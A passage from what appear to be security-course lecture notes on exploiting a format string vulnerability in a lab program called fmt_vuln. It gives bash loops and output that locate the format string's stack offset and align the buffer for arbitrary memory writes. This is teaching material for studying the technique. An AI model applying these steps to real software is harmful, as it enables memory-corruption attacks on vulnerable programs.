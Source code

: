 Ok, that looks good. Now we need to find at what index we find the start
of the format string itself so we can remove the AAAA and BBBB and CCCC
and DDDD and replace them with addresses we want to write too. For that,
we can use a bash script:

``` {.example}
user@si485H-base:demo$ for i in `seq 1 1 200`;  do echo -n "$i "; ./fmt_vuln AAAABBBBCCCCDDDD%1\$008x.%$i\$00x.%1\$008x.%$i\$00x.%1\$008x.%$i\$00x.%1\$008x.%$i\$00x | grep Wrong ; done | grep 41
41 Wrong: AAAABBBBCCCCDDDDbffff85a.b7fed180.bffff85a.b7fed180.bffff85a.b7fed180.bffff85a.b7fed180
70 Wrong: AAAABBBBCCCCDDDDbffff85a.b7fdd414.bffff85a.b7fdd414.bffff85a.b7fdd414.bffff85a.b7fdd414
121 Wrong: AAAABBBBCCCCDDDDbffff856.4141006e.bffff856.4141006e.bffff856.4141006e.bffff856.4141006e
122 Wrong: AAAABBBBCCCCDDDDbffff856.42424141.bffff856.42424141.bffff856.42424141.bffff856.42424141
141 Wrong: AAAABBBBCCCCDDDDbffff856.30302431.bffff856.30302431.bffff856.30302431.bffff856.30302431
```

Essentially, we iterate through the indexes until we find some sequence
of 0x41's (or other values we are interested in. If you look above, at
121 and 122 we see the sequences that matter, but they aren't quite
align the way we want. We need to add two bytes to the string to get the
alignment to work.

``` {.example}
user@si485H-base:demo$ for i in `seq 1 1 200`;  do echo -n "$i "; ./fmt_vuln AAAABBBBCCCCDDDD..%1\$008x.%$i\$00x.%1\$008x.%$i\$00x.%1\$008x.%$i\$00x.%1\$008x.%$i\$00x | grep Wrong ; done | grep 41
41 Wrong: AAAABBBBCCCCDDDD..bffff858.b7fed180.bffff858.b7fed180.bffff858.b7fed180.bffff858.b7fed180
70 Wrong: AAAABBBBCCCCDDDD..bffff858.b7fdd414.bffff858.b7fdd414.bffff858.b7fdd414.bffff858.b7fdd414
121 Wrong: AAAABBBBCCCCDDDD..bffff854.41414141.bffff854.41414141.bffff854.41414141.bffff854.41414141
141 Wrong: AAAABBBBCCCCDDDD..bffff854.30302431.bffff854.30302431.bffff854.30302431.bffff854.30302431
```

Notice the extra ".." following the D's to get everything to align
properly, if we use 121.

``` {.example}
user@si485H-base:demo$ ./fmt_vuln AAAABBBBCCCCDDDD..%1\$008x.%121\$00x.%1\$008x.%122\$00x.%1\$008x.%123\$00x.%1\$008x.%124\$00x
Right: AAAABBBBCCCCDDDD..%1$008x.%121$00x.%1$008x.%122$00x.%1$008x.%123$00x.%1$008x.%124$00x

Wrong: AAAABBBBCCCCDDDD..bffff854.41414141.bffff854.42424242.bffff854.43434343.bffff854.44444444

[*] test_val @ 0x804a028 = 0x616161
--- STACK main ---
0xbffff694 <ebp+0xc>: bffff724
0xbffff690 <ebp+0x8>: 00000002
0xbffff68c <ebp+0x4>: b7e33a83
0xbffff688 <ebp>: 00000000
0xbffff684 <ebp-0x4>: 00000000
0xbffff680 <ebp-0x8>: 08048610
0xbffff67c <ebp-0xc>: b7fc4000
0xbffff678 <ebp-0x10>: 00616161
0xbffff674 <ebp-0x14>: 00000002
0xbffff670 <ebp-0x18>: 08048725
0xbffff66c <ebp-0x1c>: 08048603
0xbffff668 <ebp-0x20>: bffff688
```
